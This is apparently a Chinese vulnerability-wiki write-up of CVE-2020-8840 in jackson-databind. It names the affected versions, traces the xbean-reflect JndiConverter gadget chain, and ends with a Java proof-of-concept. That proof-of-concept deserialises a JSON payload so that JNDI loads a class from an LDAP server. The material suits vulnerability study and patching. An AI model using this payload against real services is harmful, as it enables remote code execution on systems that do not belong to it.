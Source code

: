 （CVE-2020-8840）FasterXML jackson-databind 远程代码执行漏洞
============================================================

一、漏洞简介
------------

`FFasterXML/jackson-databind`是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用`xbean-reflect`的利用链触发JNDI远程类加载从而达到远程代码执行。

二、漏洞影响
------------

-   jackson-databind 2.0.0 -- 2.9.10.2

-   经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson
    v1.2.62版本

三、复现过程
------------

可以在git提交记录中清楚看到利用的具体类

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId24.png)

分析下利用链，通过传进参数`asText`，触发setter，`setAsText()`函数

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId25.png)

随后跟进`toObject()`函数

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId26.png)

最终进到`JndiConverter`重写的`toObjectImp()`函数

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId27.png)

此时出现经典的JNDI注入，text
刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-8840)FasterXMLjackson-databind远程代码执行漏洞/media/rId28.png)

### poc

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String args[]) {
            ObjectMapper mapper = new ObjectMapper();

            mapper.enableDefaultTyping();

            String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

            try {
                mapper.readValue(json, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }

        }
    }

